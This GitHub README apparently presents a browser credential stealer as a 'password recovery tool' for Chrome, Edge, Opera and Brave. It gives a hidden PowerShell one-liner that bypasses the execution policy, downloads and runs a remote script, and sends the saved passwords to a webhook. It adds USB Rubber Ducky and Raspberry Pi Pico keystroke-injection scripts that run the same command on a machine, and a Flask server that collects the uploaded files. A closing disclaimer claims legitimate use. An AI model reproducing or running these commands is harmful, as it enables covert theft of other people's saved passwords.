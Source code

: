 # 🔐 Chrome, Edge, Opera and Brave Password Recovery Tool 🔐

## 📱 Overview

This tool helps you recover saved passwords from Chrome, Edge, Opera and Brave browsers when you've forgotten them. Perfect for IT professionals who need to retrieve credentials for work purposes or individuals who need to recover their own forgotten passwords.

## ✨ Features

- 🔍 Recovers passwords from Chrome, Edge, Opera and Brave browsers
- 👤 Works with multiple browser profiles
- 🔄 Automatically generates a Python script to decrypt the passwords
- 📊 Provides a neat summary of recovered credentials
- 🛡️ Simple one-line command for quick recovery

## 🚀 Quick Start

Simply run the following command in a PowerShell window:

```powershell
start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'"
```

⚠️ Be sure to replace `YOUR_WEBHOOK_URL` with your actual webhook URL where the password data will be sent.

## 🌐 Setting Up Your Webhook

You'll need a webhook URL to receive the Python decryption script. Here are some options:

1. **Discord Webhook**: 
   - Create a Discord server
   - Go to Server Settings > Integrations > Webhooks
   - Create a new webhook and copy the URL

2. **Custom Server**:
   - Set up a simple Python server with Flask:

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)

@app.route('/webhook', methods=['POST'])
def webhook():
    if 'file' in request.files:
        file = request.files['file']
        file.save(os.path.join('uploads', file.filename))
        return jsonify({"status": "success"})
    return jsonify({"status": "error"})

if __name__ == '__main__':
    os.makedirs('uploads', exist_ok=True)
    app.run(host='0.0.0.0', port=5000)
```

## 📋 Requirements

- Windows operating system
- Chrome, Edge, Opera or Bravr installed
- PowerShell
- Administrator privileges (for best results)

## 🔧 How It Works

1. The tool stops any running Chrome, Edge, Opera and Brave processes
2. Extracts encrypted passwords from the browsers
3. Prepares a Python decryption script
4. Sends the script to your specified webhook
5. The script can then be run to decrypt all the passwords

## 🐍 Decrypting the Passwords Locally

When you receive the Python script, you'll need to:

1. Install the required library:
```bash
pip install pycryptodomex
```

2. Run the decryption script:
```bash
python browser_decrypt.py
```

### Why Local Decryption?

We decrypt passwords locally for several important reasons:
- 🔒 **Security**: Keeps your sensitive data on your machine
- 🚫 **Size Limitations**: Webhooks often have character limits
- ⚙️ **Complexity**: Browser encryption requires specific Python libraries
- 🔑 **Access Control**: Ensures only you can access the decrypted passwords

## 🦆 Automation Options

### USB Rubber Ducky Script

For automated deployment using a USB Rubber Ducky:

```
REM Chrome, Edge, Opera and Brave Password Recovery Tool
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'
ENTER
```

### Raspberry Pi Pico Implementation

You can also run this using a Raspberry Pi Pico with CircuitPython:

```python
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS

# Initialize keyboard
keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

# Wait for the computer to recognize Pico
time.sleep(2)  

# Open Run window
keyboard.send(Keycode.WINDOWS, Keycode.R)
time.sleep(0.5)

# Open command prompt
layout.write("cmd")
keyboard.send(Keycode.ENTER)
time.sleep(0.3)

# Run the password recovery command
layout.write("start /b powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command \"Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/pentestfunctions/chrome_brave_password_webhook/refs/heads/main/dcinfosnd.ps1' -OutFile 'temp.ps1'; . .\\temp.ps1; dcinfosnd -hq 'YOUR_WEBHOOK_URL'; Remove-Item 'temp.ps1'\"")
keyboard.send(Keycode.ENTER)
```

Make sure to replace `'YOUR_WEBHOOK_URL'` with your actual webhook URL in both examples.

## 🛑 Important Notes

- This tool is designed for **legitimate password recovery** of your own accounts or within authorized systems
- Always obtain proper authorization before recovering passwords on systems you don't own
- Use responsibly and ethically

